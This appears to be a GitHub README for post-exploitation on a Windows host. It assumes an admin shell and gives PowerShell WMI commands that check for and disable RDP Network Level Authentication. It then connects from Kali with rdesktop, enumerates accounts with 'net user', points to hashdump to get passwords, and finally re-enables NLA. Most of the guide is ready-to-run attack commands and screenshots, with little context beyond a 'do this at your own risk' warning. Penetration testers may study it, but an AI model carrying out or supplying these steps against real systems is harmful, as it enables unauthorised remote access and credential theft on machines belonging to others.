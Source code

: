 ## WARNING
-DO THIS AT YOUR OWN RISK :) 

1. Please ensure RDP is allowed on this system.(RDP is allowed on Windows Pro Only,Windows Home **Does NOT** support RDP) 
2. Shell Needed Requires Admin Privilege.
3. Powershell MUST be Used !
4. You will need the password of the Desktop you are connecting to save time.
 
## Here are the Steps 

1. Once you have Admin Level Shell

2. Run a Sysinfo to see the Name of the Desktop.

      Image is seen below:

      ![alt text](resources/rpc_images/sysinfo.PNG)

3. In the Powershell, 
  You need to establish the Variable of the Name of the System.
   
   Follow the Codes in Order :-
    
   - `shell`
    
   - `powershell`
    
   - `$ComputerName = " NAME SEEN IN SYSINFO "`
  
    Image is seen below:

    ![alt text](resources/rpc_images/Variable.PNG)
      
4. Once you have done this, You will need to check if you require Network Level Authentication(NLA).
    Use the Following command to check if you do not know:-
    
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
    
    
    **If "1" is returned, it means NLA is on.**
    
    
    **If "0" is returned, it means NLA is off.**
    
    
    Image is seen below:

    ![alt text](resources/rpc_images/CheckingNLA.PNG)
    
5. Since we do not have Network Level Authentication(NLA), We need to turn off the NLA. 
   Using Admin Level Powershell,
   
    `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
  
      
      Image is seen below:

    ![alt text](resources/rpc_images/TurnOffNLA.PNG)
  
    Now It will be turned off.
    Use Number 4 command to check if it worked. 
  
      Image is seen below:

      ![alt text](resources/rpc_images/TurnedOffNLA.PNG)
  
6. Since now it is off, we can connect using our normal shell in our own machine.
    Ue the command in Kali Linux Shell to connect:-
  
    `rdesktop <IP ADDRESS> -u <Username> -p <Usermame's Password>`
    
    Image is seen below:

    ![alt text](resources/rpc_images/rdesktop.PNG)

    ![alt text](resources/rpc_images/connectedRPC.PNG)
    
    **- If you do not know the Username, run the command `net user` in the Powershell**
    
     Image is seen below:

     ![alt text](resources/rpc_images/net_user.PNG)
    
    **- If you do not know the Username's Password, hashdump will be required.**
    
    
7. Once you have finished with everything, to reactivate the Network Level Authentication(NLA).
    Using the Admin Level Powershell,
    
     `(Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName $ComputerName -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(1)`

    Image is seen below:

    ![alt text](resources/rpc_images/TurnOnNLA.PNG)

    Now It will be turned off.
    Use Number 4 command to check if it worked.
   
    Image is seen below:

    ![alt text](resources/rpc_images/TurnedOnNLA.PNG)

 ##Reference
 [Diableing of NLA] (https://social.technet.microsoft.com/Forums/en-US/c07323c2-77fa-4eb4-91ed-7ba6fa23bd00/how-to-disable-nla?forum=winserversecurity)
 
